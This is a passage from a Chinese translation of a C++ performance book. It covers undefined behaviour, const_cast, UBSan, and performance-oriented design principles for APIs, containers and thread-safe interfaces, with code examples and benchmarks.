现在`g()`函数可以改变`y`的值，所以每次都要进行比较。如果函数`g()`的目的不是改变它的参数，就可以通过值进行传递。另一个选项是传递`const`引用，虽然对于小型类型(如整数)没有理由这样做，但模板代码通常会生成这样的函数。这个例子中，代码看起来会是这样:

\
**10_const.C**

``` {style="styleCXX"}
void g(const int& y);
bool f(int x) {
	int y = x + 1;
	g(y);
	return y > x;
}
```

对汇编程序的检查表明`return`语句没有进行优化，仍然进行比较。当然，编译器不做某种优化证明了什么，说明没有优化器是完美的，但不做优化是有原因的。不管代码怎么样，C++标准并不保证`g()`函数不改变它的参数!下面是一个完全符合标准的实现:

``` {style="styleCXX"}
void g(const int& y) { ++const_cast<int&>(y); }
bool f(int x) {
	int y = x + 1;
	g(y);
	return y > x;
}
```

函数允许弃用`const`。结果定义的很好，并在标准中指定(这并不能使它成为好的代码，只是有效的代码)。但是，有一个例外:在创建时声明为`const`的对象转换为`const`。举例来说，这是一个很好的定义(但不明智):

``` {style="styleCXX"}
int x = 0;
const int& y = x;
const_cast<int&>(y) = 1;
```

这是会有UB的版本:

``` {style="styleCXX"}
const int x = 0;
const int& y = x;
const_cast<int&>(y) = 1;
```

可以通过将中间变量`y`声明为`const`来利用UB:

``` {style="styleCXX"}
void g(const int& y);
bool f(int x) {
	const int y = x + 1;
	g(y);
	return y > x;
}
```

现在编译器可以假设函数总是返回true。更改它的唯一方法是创造UB，而编译器不需要UB。在写这本书的时候，还不知道有编译器会做这种优化。

考虑到这一点，在对使用`const`来进行优化，有什么建议呢？

-   如果值没有改变，将它声明为`const`。正确性很重要，但这确实可以支持一些优化，特别是当编译器可以通过在编译时计算表达式来传播`const`时。

-   更好的优化方法是，若该值在编译时已知，则将其声明为`constexpr`。

-   通过`const`引用传递形参给函数没有任何优化作用，因为编译器必须假定函数可能会抛弃`const`(如果函数是内联的，编译器知道发生了什么，但如何声明形参就无关紧要了)。另一方面，这是将`const`对象传递给函数的唯一方法，因此，只要有可能，请将引用声明为`const`(更重要的为了清晰的表明意图)。

-   对于小类型，按值传递比按引用传递更有效(这不适用于内联函数)。这很难与模板生成的泛型函数相协调(不要假设模板总是内联的，大型模板函数通常不是)。有一些方法可以强制特定类型的值传递，但会使模板代码更加繁琐。不要一开始就写这样的代码，只有当测试结果表明，对于特定的代码段，这种工作是合理的时再这样做。

我们已经详细探讨了C++中的UB如何影响C++代码的优化。现在是时候回到正题，了解如何在自己的程序中利用UB了。

###  11.5.使用未定义的行为进行高效的设计 {#使用未定义的行为进行高效的设计 .unnumbered}

这一节的UB，是由开发者指定的。要做到这一点，首先需要从不同的角度来考虑UB。

到目前为止，看到的所有UB的例子都可以分为两种。第一类是像`++k +k`表达式这样的代码，这些都是错误，因为其根本没有定义行为。第二种是像`k + 1`这样的代码，其中`k`是有符号整数。这中代码到处都是，而且大多数时候，都工作得很好。除了变量为特定的某些值外，它的行为有良好的定义。

换句话说，代码具有隐式的先决条件，只要满足了这些先决条件，程序就会表现良好。注意，在更大程序的上下文中，这些先决条件可能是隐式的。程序可能验证输入或中间结果，并防范可能导致UB的值。无论采用哪种方式，开发者都与用户有了一种约定:如果输入符合某些限制，则保证结果是正确的，并且程序可以以一种定义良好的方式运行。

如果违反了限制会发生什么？有以下两种可能:

-   首先，程序可能检测到输入不符合约定，并处理错误。这种行为仍然得到了很好的定义，并且是规范的一部分。

-   其次，程序可能无法检测到约定被违反，并像往常一样继续进行。由于约定对于保证正确的结果至关重要，所以现在在未知的领域运行，而且没有办法预测将会发生什么。

这就是UB的描述。

既然已经理解了UB仅是在指定的约定之外运行的程序的行为，那么可以考虑一下如何将其在应用中使用。

大多数足够复杂的程序在其输入上都有先决条件，即与用户进行约定。有人可能会说，应该总是检查这些先决条件，并报告错误。然而，这可能是一个非常昂贵的需求。再来看一个例子。

要编写一个程序来扫描画在一张纸上(或蚀刻在印刷电路板上)的图像，并将其转换为图形数据。程序的输入可能是这样的:

\
图11.8 - 图形绘制是图形程序的输入

程序获取图像，识别矩形，从每个矩形创建图形节点，识别直线，为每条直线找出它连接的两个矩形，并在图形中创建相应的边。

假设有一个图像采集和分析库，提供一组形状(矩形和直线)及其所有坐标，所以现在要做的就是找出哪些直线连接哪些矩形。有了所有的坐标，所以从现在开始，问题就是纯几何的。表示这个图最简单的方法之一是用边表表示。可以使用容器(比如，`vector`)作为表，如果给每个节点分配唯一的数字ID，一条边就是一对数字。可以使用任意数量的几何算法来检测直线和矩形之间的交点，并逐边构造这个表(以及图本身)。

听起来很简单，有一个数据的自然表示，相当简单，并容易处理。不幸的是，这里还与用户有一个隐式约定:要求每条线恰好与两个矩形相交(同样，矩形也不互相相交，避免混乱)。

\
图11.9 - 图形识别程序的无效输入

图11.9中，看到了一个违反约定的输入:其中一条线连接了三个矩形，而另一条线只连接了一个矩形。如前所述，有两个选择:可以检测并报告输入错误，或者可以忽略。第一个选项使程序健壮，但会有性能损失:原始程序可能会在找到第二个这样的矩形后，停止寻找连接到给定边的矩形，并从那时起忽略这条边。这种优化的收益是相当可观的:对于类似于图11.8(但要大得多)的图，可以将运行时间减少一半。如果输入最终是正确的，那么强制输入验证会浪费大量时间，并且会让有其他方法确保输入有效的用户感到沮丧。不验证输入将导致UB:如果有一条线连接三个矩形，算法将在找到前两个矩形后停止，无论它处理它们的顺序是什么(这个顺序可能是依赖于数据的，所以对于这种情况，可以说的是在涉及的两个节点之间将创建了一条边)。

如果性能差异不明显(或者总体运行时间很短，所以翻倍也不重要)，那么最好的解决方案就很明显------验证输入。在这种情况和许多其他情况下，验证的成本很容易与找到解决方案一样高。在这种情况下应该怎么做呢？

首先，必须清楚强加给用户的约定。应该清楚地指定，并记录什么是有效的输入。在此之后，性能敏感型项目的最佳实践是提供最佳性能。更广泛的约定(施加更少限制的约顶)总是比狭义的约定好，所以如果有一些无效输入，可以很容易地检测，并以最小的开销处理它们，那么就应该这样做。除此之外，能做的就是记录程序行为未定义时的条件，就像C++标准一样。

还可以做一些努力，可以为用户提供一个输入验证工具，既可以作为程序中的一个可选步骤，也可以作为单独的软件。运行它需要时间，但是如果用户从主程序中得到了奇怪的结果，可以使用工具检查，以确保输入是有效的。这比在行为未定义时简单地描述要好得多(然而，在有些情况下，这样的验证开销太大，反而不实用)。

如果C++编译器开发人员会做同样的工作，并提供一个可选的工具来检测代码中的UB，岂不妙哉？事实证明，开发人员也是这么想的:今天许多编译器都有一个选项来启用UB杀灭器(通常称为UBSan)。让我们从一些可以导致UB的代码开始了解其工作原理:

``` {style="styleCXX"}
int g(int k) {
	return k + 10;
}
```

编写一个程序，用足够大的参数(大于`INT_MAX-10`)调用这个函数，并在启用UBSan的情况下编译它。对于Clang或GCC，该选项是`-fsanitize=undefined`。这里有一个例子:

commandshell= clang++ --std=c++17 --O3 --fsanitize=undefined ub.C

运行该程序，就会看到如下内容:

commandshell= ub.C:10:20: runtime error: signed integer overflow:
2147483645 + 10 cannot be represented in type 'int'

就像在我们的图形示例中一样，UB检测需要时间，并且会使程序变慢，所以这应该在测试和调试时去做的事情。让杀灭器运行常规回归测试的一部分，并认真对待报告的错误:虽然今天生成了正确的结果，但并不意味着明天下一个编译器不会生成一些非常不同的代码，并更改结果。

我们已经了解了UB，为什么它有时是一种必要的恶，以及如何利用它来提高性能。结束这一章之前，让我们回顾一下我们了解过的东西。

###  11.6.总结 {#总结-10 .unnumbered}

我们用了整整一章专门讨论C++和程序中的UB。为什么这么做？因为这个主题与性能有着千丝万缕的关系。

首先，当程序接收到指定程序行为之外的输入时，UB就会发生。此外，标准还说程序不需要检测这样的输入和发出诊断。这对于C++标准定义的UB和自己程序的UB都是正确的。

其次，规范(或标准)没有涵盖所有可能的输入和定义结果的原因，主要与性能有关。当可靠地生成特定结果的成本非常昂贵时，通常会引入UB。对于C++中的UB，处理器和内存架构的多样性也会导致无法统一处理的情况。如果没有一种可行的方法来保证一个特定的结果，这个标准就没有明确结果的。

最后，程序不需要检测(如果不处理)无效输入的原因是，这样的检测可能也会非常昂贵。有时确认输入是有效，会比计算结果花费更长的时间。

设计软件时，应该牢记这些点:总是希望有一个一般性约定来定义任何或任何输入的结果，但是这样做会给那些只提供典型或"正常"输入的用户带来不必要的性能开销。当用户可以在更快地执行想要执行的任务，以及可靠地执行一开始就不想执行的任务之间做出选择时，大多数用户会选择性能。作为一种妥协，可以为用户提供一种验证输入的方法。如果这种验证的代价很高，那么应该是可选的。

当涉及到C++标准的UB时，情况就变了，这时开发者就是用户。有必要理解，如果一个程序包含了UB的代码，那么整个程序都是定义不清的，而不仅仅是有问题的那一行。这是因为编译器可以假设UB永远不会在运行时发生，并据此推断对代码进行的相应优化。现代的编译器在某种程度上都会这样做，而未来的编译器可能会在他们的推断中更加激进。

最后，许多编译器开发人员还提供了验证工具，可以在运行时检测未定义的行为------UB杀灭器。就像自己的程序的输入验证器一样，这些工具需要时间来运行，这就是为什么杀灭器是一个可选工具，应该在软件测试和开发过程中使用。

这本书快结束了。下一章，也就是最后一章，我们将回顾我们所学到的一切，并着眼于软件设计的含义和启示。

###  11.7.练习题 {#练习题-10 .unnumbered}

1.  什么是未定义行为？

2.  为什么不能定义程序可能遇到情况的结果？

3.  若把标准标签写为UB，测试结果。验证代码是否有效，那就没问题了，对吗？

4.  为什么要故意设计一个记录未定义行为的程序呢？

##  第12章为性能而设计 {#第12章为性能而设计 .unnumbered}

本章回顾本书中所学到的所有与性能相关的因素和特性，并探讨了所获得的知识和理解如何在开发新软件系统，或重构现有软件系统时所做出的设计决策。了解设计决策如何影响软件系统的性能，学习如何在没有详细数据的情况下做出与性能相关的设计决策，以及设计API、并发数据结构和高性能数据结构的最佳实践，以避免低效。

本章将讨论以下内容:

-   设计与性能之间的关系

-   为性能设计

-   API的设计考虑

-   为最佳数据访问而设计

-   权衡性能

-   做出明智的设计决策

将了解如何从一开始就将良好的性能作为设计目标之一，以及如何设计高性能的软件系统，以确保有效的实现不会成为与程序架构相对抗的战斗。

###  12.1.相关准备 {#相关准备-10 .unnumbered}

需要一个C++编译器和一个微基准测试工具，比如谷歌基准测试库(<https://github.com/google/benchmark>)。

本章的源码地址：
<https://github.com/PacktPublishing/The-Art-of-Writing-EfficientPrograms/tree/master/Chapter12>。

###  12.2.设计与性能间的关系 {#设计与性能间的关系 .unnumbered}

优秀的设计是否有助于实现良好的性能，或者确定是否需要牺牲最佳设计实践来实现最佳性能？这些问题在编程界已经争论了很久。通常，设计倡导者会认为，若需要在良好的设计和良好的性能之间做选择，那么设计者的能力太水。另一方面，黑客(我们使用这个术语的传统意义，将解决方案组合在一起的开发者，与犯罪方面无关)通常将设计指南视为最佳优化的约束条件。

这两种观点在一定程度上都是正确的。如果把它们视为"全部的真相"，也不对。许多设计实践在应用于特定软件系统时，会限制性能，否认这一点就很蠢。另外，许多实现和维护有效代码的指南也是可靠的设计建议，可以提高性能和设计质量。

我们对设计和性能之间的关系采取了更微妙的看法。对于特定的系统(开发者最感兴趣的是还是正在开发的系统)，一些设计指南和实践确实会导致效率和性能低下。很难想出一个总是与效率相对立的设计规则，但是对于特定的系统，也许在某些特定的环境中，这样的规则和实践就很常见。若采用了遵循这些规则的设计，那么可能会将效率低下的设计嵌入到软件系统的核心架构中，这将很难通过"优化"进行弥补，很可能就是要重写程序的关键部分。任何忽视或粉饰这个陷阱的潜在严重性的开发者，都无法获得最佳性能。另外，声称这是放弃可靠设计实践的理由的人都是错误的，他们的选择过于二元化。

如果意识到特定的设计方法可以遵循的实践，就可以提高设计的清晰度和可维护性，虽然降低了性能，但也很好的设计方法。换句话说，虽然一些好的设计产生了糟糕的性能，但是对于一个给定的软件系统来说，每一个好的设计都会导致低效，听起来就很荒谬。所需要做的就是从几种可能的高质量设计中，选择一种具有良好性能的设计。

当然，说起来容易做起来难，但希望这本书能有所帮助。本章的其余部分，我们将关注问题的两个方面。首先，当考虑性能时，建议采用什么设计实践？其次，当没有可以运行和测试的程序，但有一个(可能不完整的)设计时，如何评估可能的性能影响？

如果仔细阅读了最后两段，会发现性能是一种设计考虑因素，就像在设计中考虑"支持许多用户"或"在磁盘上存储TB级数据"等需求一样，性能目标也是需求的一部分，应该在设计阶段明确考虑。这将我们引向设计高性能系统，它是......

###  12.3.为性能设计 {#为性能设计 .unnumbered}

性能是设计目标之一，与其他需求同等重要。因此，"这种设计导致了糟糕的性能"问题的回答与"这种设计没有提供我们需要的功能"问题的答案是一样的。两种情况下，都需要不同的设计。只是更习惯于根据他们做的怎么样来评估设计，而不是做得有多快。

为了在第一次尝试时，选择性能提升设计实践，现在介绍几个专门针对良好性能的设计指南。它们也是可靠的设计原则，有理由去了解它们，遵循这些原则不会让设计变得更糟。

前两条指导原则处理设计中不同组件(函数、类、模块、过程、任何组件)的交互。首先，建议交互传递尽可能少的信息，以便整个系统能正常工作。其次，建议不同的组件提供尽可能多的关于交互预期结果的信息。如果认为这是一组矛盾，也没什么问题。设计通常是解决矛盾的艺术，两个矛盾的陈述都正确，只是时间或空间不同。下面的例子很好地说明了这种(更普遍的)管理设计矛盾的方法。

**12.3.1最小信息原则**

从第一条准则开始。尽可能少地交互信息，上下文在这里非常重要，建议组件尽可能少地暴露它如何处理特定请求的信息。组件之间的交互是由约定控制的。当讨论类和函数的接口时，已经习惯了这个想法，但它是一个更广泛的概念，用比如于两个进程之间通信的协议，这就是一个约定。

在此类接口或交互中，作出和履行承诺的一方不应提供额外的信息。看一些具体的例子，将从实现基本队列的类开始，然后问自己。从效率的角度来看，什么是好的接口？

其中有一个方法允许检查队列是否为空。注意，调用者并没有询问队列有多少元素，而只是询问队列是否为空。虽然队列的某些实现可能会缓存大小，并将其与0进行比较以应对此请求。但对于其他实现，确定队列是否为空可能比计算元素更有效。约定中，"如果队列为空，将返回true。"即使知道大小，也不要做承诺:*不要主动提供额外的信息*。这样，后面就可以自由地更改实现了。

类似地，入队和出队的方法应该只保证向队列中添加或删除新元素。从队列中弹出一个元素，必须处理空队列的情况，或者声明未定义尝试的结果(STL选择的方法)。可能注意到，STL队列从效率的角度展示了一个出色的接口，其完成了对队列数据结构的约定，而没有透露任何不必要的细节。特别是，`std::queue`是一种适配器，可以在几个容器中的一个上实现。队列可以实现为`vector`、`deque`或`list`，这个例子告诉我们，接口需要隐藏实现细节。

对于接口泄漏太多实现信息的反面例子，考虑另一个STL容器，无序`set`(或`map`)。`std::unordered_set`容器有一个接口，允许插入新元素并检查给定的值是否已经在集合中(目前为止，一切正常)。根据定义，它缺乏元素的内部顺序，并且标准提供的性能保证清楚地表明数据结构使用了哈希。所以，接口中显式地引用哈希的部分是必要的，所以必须指定一个用户给定的哈希函数。但是这个接口走远了，通过像`bucket_count()`这样的方法，暴露了底层实现必须是一个带有桶的离散链接哈希表，以解决哈希冲突。因此，不可能使用开放寻址哈希表创建一个完全符合STL的无序`set`。此接口限制了实现，并可能阻碍使用更高效的实现。

虽然在简单的例子中使用了类设计，但同样的原则也可以应用于更大模块的API，客户端-服务器协议，以及系统组件之间的其他交互。在设计响应请求或提供服务的组件时，只需提供简洁的约定，并只显示请求者所需的信息即可。

最小信息或最小承诺的设计准则，本质上是对类接口设计准则的概括：*接口不应暴露实现*。此外，要考虑到纠正违反这条指导原则的行为会相当困难。若设计泄露了实现细节，那么客户将依赖于它们，并且若更改了实现，就会破坏客户的代码。因此，为性能而设计与一般的设计实践一样。在下一个指导方针中，我们将开始介绍不同设计目标和相应最佳实践之间的关系。

**12.3.2最大信息原则**

虽然完成请求的组件应该避免暴露可能限制实现的信息，但对于发出请求的组件来说，情况正好相反。请求者或调用者应该能够提供关于具体需要什么的特定信息。当然，调用方只有在有合适的接口时才提供信息，因此接口应该允许这样的"完整"请求。

特别是，要提供最佳性能，了解请求背后的意图通常很重要。同样，通过一个例子，应该会更容易理解这个概念。

让我们从一个随机访问序列容器开始。随机访问可以访问容器中的任意第`i`个元素，而不需要访问其他元素。通常的方法是使用索引运算符:

``` {style="styleCXX"}
T& operator[](size_t i) { return … i-th element …; }
```

有了这个操作符，就可以遍历容器了:

``` {style="styleCXX"}
container<T> cont;
… add some data to cont …
for (size_t i = 0; i != cont.size(); ++i) {
	T& element_i = cont[i];
	… do some work on the i-th element …
}
```

从效率的角度来看，这不是最好的方法，因为现在使用随机访问迭代器进行顺序迭代。对于更强大或功能更强大的接口，在只使用了它的一小部分功能时，就应该关注效率。该接口的灵活性可能会以性能为代价，如果不使用这些特性，就会浪费性能。

假设`std::deque`是一个支持随机访问的块分配容器。为了访问任意元素`i`，必须首先计算哪个块包含这个元素(通常是一个取模操作)和块中元素的索引，然后在辅助数据结构(块指针表)中找到块的地址，并在块中进行索引。对于下一个元素，必须重复这个过程。不过在大多数情况下，元素将驻留在同一个块中，而且我们对地址已知。这是因为对任意元素的请求没有包含足够的信息，没有办法知道将很快请求下一个元素。因此，`deque`不能以最有效的方式处理遍历。

另一种遍历整个容器的方法是使用迭代器:

``` {style="styleCXX"}
for (auto it = cont.begin(); it != cont.end(); ++it) {
	T& element = *it;
	… do some work on the element …
}
```

`deque`的实现者可以假设迭代器的自增(或自减)操作。因此，如果有一个迭代器`it`并访问相应的元素`*it`，很可能会请求下一个元素。`deque`迭代器可以在块指针表中存储块指针或右变元素的索引，这将使访问一个块中元素的成本更低。通过一个简单的基准测试，可以验证使用迭代器遍历`deque`容器确实比索引更快:

\
**01_deque.C**

``` {style="styleCXX"}
void BM_index(benchmark::State& state) {
	const unsigned int N = state.range(0);
	std::deque<unsigned long> d(N);
	for (auto _ : state) {
		for (size_t i = 0; i < N; ++i) {
			benchmark::DoNotOptimize(d[i]);
		}
		benchmark::ClobberMemory();
	}
	state.SetItemsProcessed(N*state.iterations());
}
void BM_iter(benchmark::State& state) {
	const unsigned int N = state.range(0);
	std::deque<unsigned long> d(N);
	for (auto _ : state) {
		for (auto it = d.cbegin(), it0 = d.cend();
		it != it0; ++it) {
			benchmark::DoNotOptimize(*it);
		}
		benchmark::ClobberMemory();
	}
	state.SetItemsProcessed(N*state.iterations());
}
```

性能差异显著:

\

\
图12.1 - 使用索引和迭代器遍历`std::deque`

指出为性能而设计和为性能而优化之间的关键区别非常重要。不能保证迭代器访问`deque`容器的速度更快，特定的实现可能会使用索引操作符来实现迭代器，这样的保证可能来自一个优化的实现。本章中，我们感兴趣的是设计。尽管，谈论"有效的设计"时，其他人可能会理解这话的意思，但设计不能真正地"优化"。设计可以允许或阻止某些优化，所以更准确的说法是"性能敌对"或"性能友好"的设计(后者通常也称为有效设计)。

在`deque`示例中，索引操作符对于随机访问是高效的，并且将顺序迭代视为随机访问的一种特殊情况。调用者不可能说:"接下来我可能会请求相邻的元素。"相反，根据迭代器的存在性，可以推断它可能是递增或递减的。该实现可以使这种增量操作执行的更高效。

进一步讨论容器的例子。这一次，考虑一个自定义容器，功能上是一个树，但与`std::set`不同，不将值存储在树节点中。相反，将值存储在序列容器(数据存储)中，而树节点包含指向该容器元素的指针。树本质上是数据存储的索引，因此需要一个定制的比较函数。这里想要比较的是值，而不是指针。

\
**02_index_tree.C**

``` {style="styleCXX"}
template<typename T> struct compare_ptr {
	bool operator()(const T* a, const T* b) const {
		return *a < *b;
	}
};
template <typename T> class index_tree {
	public:
	void insert(const T& t) {
		data_.push_back(t);
		idx_.insert(&(data_[data_.size() - 1]));
	}
	private:
	std::set<T*, compare_ptr<T>> idx_;
	std::vector<T> data_;
};
```

插入新元素时，将添加到数据存储的末尾，而指针将添加到由元素比较确定的索引位置。为什么要选择这样的实现，而不是`std::set`呢？某些情况下，可能会有强制的需求，例如：数据存储可能是磁盘上的内存映射文件。其他情况下，为了提高性能，可以选择这种实现。可能乍一看，额外的内存使用和通过指针间接访问元素会降低性能。

为了了解这个索引树容器的性能优势，检查搜索满足给定谓词的元素的操作。假设容器提供了迭代器，可以简单地遍历索引集，就可以轻松地进行搜索。解引用操作符应该返回索引的元素值，而不是指针:

\
**02_index_tree.C**

``` {style="styleCXX"}
template <typename T> class index_tree {
	using idx_t = typename std::set<T*, compare_ptr<T>>;
	using idx_iter_t = typename idx_t::const_iterator;
	public:
	class const_iterator {
		idx_iter_t it_;
		public:
		const_iterator(idx_iter_t it) : it_(it) {}
		const_iterator operator++() { ++it_; return *this; }
		const T& operator*() const { return *(*it_); }
		friend bool operator!=(const const_iterator& a,
		const const_iterator& b) {
			return a.it_ != b.it_;
		}
	};
	const_iterator cbegin() const { return idx_.cbegin(); }
	const_iterator cend() const { return idx_.cend(); }
	…
};
```

要确定一个满足特定要求的值是否已经存储在容器中，只需遍历整个容器，并检查每个值的谓词:

``` {style="styleCXX"}
template <typename C, typename F> bool find(const C& c, F f) {
	for (auto it = c.cbegin(), i0 = c.cend(); it != i0; ++it) {
		if (f(*it)) return true;
	}
	return false;
}
```

当使用迭代器访问容器时，我们向容器提供了什么信息？告诉它我们打算每次访问下一个元素。我们并没有告诉它这样做的原因，并且原因重要吗？在这种情况下，确实如此。仔细想象需要做什么，需要访问容器中的每个元素，直到找到满足给定条件的元素。如果这看起来像是在重述同样的事情，那你还没教条化。这个需求中，没有说要按顺序访问容器元素，只是说需要遍历所有元素。如果有一个API，它告诉容器检查所有元素，但不要求特定的顺序，容器就可以自由地优化访问顺序。对于索引容器，最优的访问顺序是遍历数据存储本身，这就提供了最佳的内存访问模式(顺序访问)。在我们的例子中，元素在存储中的实际顺序，就是它们添加的顺序，但这无关紧要。我们要求返回的只是一个布尔值，甚至不询问匹配元素的位置。换句话说，虽然可能有多个元素满足这个条件，但调用者想知道是否存在一个这样的元素。我们没有请求元素或任何特定元素的值，这是"查找任意一个"的请求，而不是"先查找"的请求。

下面的版本用的是这种接口，允许调用者提供所有相关信息和可能的实现:

\
**02_index_tree.C**

``` {style="styleCXX"}
template <typename T> class index_tree {
	…
	template <typename F> bool find(F f) const {
		for (const T& x : data_) {
			if (f(x)) return true;
		}
		return false;
	}
};
```

快吗？基准测试可以回答这个问题。如果该值未找到，或很少找到，则这种性能差异会更为明显:

\
图12.2 - 使用迭代器和`find()`成员函数在索引数据存储中进行搜索

退一步评估这个例子是非常重要的，它是软件设计的经验，而不是一个特定的优化技术。这个上下文中，`find()`成员函数是否比基于迭代器的搜索快得多并不重要。在设计阶段，重要的是适当的实现可能会更快。它可能更快的原因是因为知道调用者的意图。

使用非成员和成员`find()`比较调用者提供的信息，当非成员`find()`函数调用容器接口时，我们告诉容器:"依次查看所有容器元素的值。"实际上并不需要这些操作，但这是给容器的信息，因为这是能通过迭代器接口传递的唯一信息。另一方面，成员`find()`允许发出以下请求:"以任意顺序检查所有元素，并告诉我是否至少有一个元素符合这个条件。"这个请求施加的限制要少得多，其将细节留给容器本身。在我们的示例中，实现者利用这种自由提供了更好的性能。

设计阶段，可能不知道这样的优化实现。成员`find()`的第一个实现也可以运行迭代器循环或调用`std::find_if`。开发者也可能永远不会优化这个函数，因为在应用程序中很少调用，并且不是性能瓶颈。但是软件系统的寿命往往比预期的要长，而且重新设计是困难和耗时的。好的系统架构不应该限制系统的发展，甚至可以满足添加新的特性和性能需求。

再次看到了性能友好型和性能敌对型设计之间的区别。当然，同样的原则也适用于系统组件之间的交互，而不限于类。在设计响应请求或提供服务的组件时，允许请求者提供所有相关的信息，特别是表达请求背后的意图。

由于几个原因，这是一个更有争议性的指南。首先，明显地违背了类设计的主流方法:永远不要为不需要特权访问，且完全可以通过现有的公共API实现的任务实现(public)成员函数。关于这个问题，了解一下这样做的几个理由。首先，有人可能会说"可以以十倍的速度实现"并不真正符合"可以实现"的标准，因此该指导方针并不适用。相反，在设计阶段甚至可能不知道需要这种性能。我们可能会违反的另一个重要规则是"不要过早地优化"，尽管不应该简单地理解这条规则，这条规则的合理支持者经常会补充说，"但也不要过早地悲观"。后者在设计的背景下，意味着做出设计决策，封闭未来的优化空间。

最大信息原则(或信息丰富的接口)的使用是一个平衡和合理判断的问题。考虑到这一点，违反这条原则远不如不遵守前面的规则那么有害。若接口或约定暴露了不必要的信息，那么很难从依赖它的客户端收回这些信息。另一方面，如果接口不允许客户端提供相关的意图信息，那么客户端可能会执行低效率的实现。但在添加了信息更丰富的接口之后，一切就不同了，客户端可以根据需要转换到这个接口上。

因此，决定是否在一开始就提供一个信息丰富的接口，取决于以下几个因素:

-   这个组件或组件之间的交互对性能至关重要的可能性有多大？虽然不鼓励猜测特定代码的性能，但需要知道有关组件的一般需求。每秒访问数百万次的数据库很可能成为某个地方的性能瓶颈，而每月为员工提供两次发薪地址的系统可以进行保守地设计，并在需要时再进行优化。

-   这个设计决策的影响有多大？若低效的实现泛滥，那当添加一个新的、更高级别的接口时，替换的难度有多大？一个类使用一到两次，可以很容易地随着它的客户端更新。一个通信协议将成为整个系统的标准，并用于一个轻量级协议API中，该API将消息存储在磁盘上长达数周或数月，从一开始就应该具有可扩展性，包括用于未来更丰富信息请求的选项。

通常情况下，这些选择并不明确，取决于设计师的直觉和经验。本书对前者有帮助，在实践中可以解决后者的问题。

在考虑不同设计决策的性能影响时，我们经常关注接口和数据组织。在下面的两个部分中，我们将展开讨论这两个主题，从接口设计开始。

###  12.4.API的设计考虑 {#api的设计考虑 .unnumbered}

有许多书籍和文章介绍了API设计的最佳实践，通常关注可用性、清晰度和灵活性。常见的指导方针，如"使接口清晰且易于正确使用"和"使接口难以误用"，并不直接处理性能问题，但也不会干扰促进良好性能和效率的实践。前一节中，我们讨论了在为性能设计接口时应该记住的两条重要准则。本节中，我们将探讨一些针对性能的更具体的指导方针。许多高性能程序依赖于并发执行，因此首先解决并发设计是有意义的。

**12.4.1并发的API设计**

设计并发组件及其接口时，最重要的规则是提供明确的线程安全的保证。注意，"明确"并不意味着"健壮"。事实上，为了获得最佳性能，在底层接口上提供较弱的保证通常性能更好。STL选择的方法是一个很好的例子，所有可能改变对象状态的方法都提供了一个弱保证:只要有一个线程在使用容器，程序就是定义良好的。

如果想要更强的保证，可以在应用程序级别使用锁。一个更好的方式是创建自己的锁，为接口提供强有力的保证。有时，这些类只是锁的装饰器，将装饰对象的每个成员函数封装在锁中。常见的是，一个锁必须保护多个操作。

为什么？因为在操作完成"一半"之后，让客户端看到特定的数据结构是没有意义的。这将我们引向一个更普遍的情况:作为一条规则，线程安全的接口也应该是事务性的(原子的)。组件(类、服务器、数据库等)的状态在进行API调用之前和调用之后都应该有效，接口保证了所有不变量都应该得到维护。很有可能的情况是，在执行请求的成员函数(用于类)期间，对象经历了一个或多个无效的状态，其不维护指定的不变量。该接口应该使其他线程不能观察到处于这种无效状态的对象。让我们用一个例子来说明。

回想一下上一节的索引树。如果想让这棵树是线程安全的(这是提供强保证的简称)，应该让插入新元素是安全的，即使在多个线程同时调用时也是安全的:

``` {style="styleCXX"}
template <typename T> class index_tree {
	public:
	void insert(const T& t) {
		std::lock_guard guard(m_);
		data_.push_back(t);
		idx_.insert(&(data_[data_.size() - 1]));
	}
	private:
	std::set<T*, compare_ptr<T>> idx_;
	std::vector<T> data_;
	std::mutex m_;
};
```

当然，其他方法也必须受到保护。显然，我们不想分别锁定`push_back()`和`insert()`。客户端将如何处理一个对象，客户如何处理数据存储中有新元素但不在索引中的对象？接口甚至没有定义这个新元素是否在容器中，使用迭代器遍历索引也不行。但若使用`find()`查找数据存储，那么应该是可以的。这种不一致性说明，索引树容器的不变量是在插入前和后维护的。因此，其他线程不能看到这样一个定义不明确的状态，这一点非常重要。我们通过确保接口同时是线程安全的和事务性的来实现这一点。同时调用多个成员函数是安全的，一些线程会阻塞并等待其他线程完成。每个成员函数将对象从一个定义良好的状态移动到另一个定义良好的状态(换句话说，它执行一个事务，比如添加一个新元素)。这两个因素的组合使得对象的使用是安全的。

如果需要一个反例(设计并发接口时不要做什么)，回想一下第7章中关于`std::queue`的讨论。从队列中删除元素的接口不是事务性的:`front()`返回前端元素但不删除它，而`pop()`删除前端元素但不返回任何东西。如果队列为空，这两种方法都会产生未定义行为。单独锁定这些方法对我们没有好处，所以线程安全的API必须使用我们在第7章(并发的数据结构)中考虑过的，构造事务性操作的方法，并用锁来保护。

现在转向效率，如果作为容器构建块的各个对象都进行自我锁定，那么效率肯定很低。想象一下，若`std::deque<T>::push_back()`本身用一个锁保护，将使`deque`线程安全(当然，假设其他相关方法也进行锁定)。但这对我们没有好处，因为仍然需要用锁来保护整个事务。它所做的只是浪费一些时间来获取和释放一个我们不需要的锁。

另外，请记住并不是所有的数据都是并发访问的。在将共享状态的数量最小化的程序中，大多数工作都是在特定于线程的数据(对象和独占一个线程的其他数据)上完成的，对共享数据的更新相对较少。独占线程的对象不应该使用锁或其他同步操作。

现在似乎有了一个矛盾:一方面，应该用线程安全的事务接口来设计类和其他组件。另一方面，因为可能正在构建进行锁操作的高级组件，所以不应该用锁或其他同步机制来增加接口的负担。

解决这一矛盾的方法一般是两种都做:提供非锁定接口(可以用作高级组件的构建块)和提供线程安全接口(有意义的地方)。通常，后者是通过使用锁保护来装饰非锁定接口来实现的。当然，必须在合理范围内进行。首先，非事务性接口都是专为单线程或构建高级接口而存在的，不需要锁定。其次，在特定的设计中，有一些组件和接口是在上下文中使用，也许数据结构是专门为每个线程单独完成的工作而设计的。同样，也没有理由增加并发性的开销。根据设计，有些组件可能仅用于并发，并且是顶级组件------应该具有线程安全的事务接口。这仍然保留了许多类和其他组件，可能以两种方式使用，并且需要锁定和非锁定不同的版本。

根本上说，有两种方法可以做到这一点。第一种是设计一个可以在请求时使用锁的组件，例如:

``` {style="styleCXX"}
template <typename T> class index_tree {
	public:
	explicit index_tree(bool lock) : lock_(lock) {}
	void insert(const T& t) {
		optional_lock_guard guard(lock_ ? &m_ : nullptr);
		…
	}
	private:
	…
	std::mutex m_;
	const bool lock_;
};
```

为此，需要一个条件`lock_guard`。可以构建一个使用`std::optional`或`std::unique_ptr`，但这种方式不好看，效率还低。编写类似`std::lock_guard`的RAII类就要容易得多:

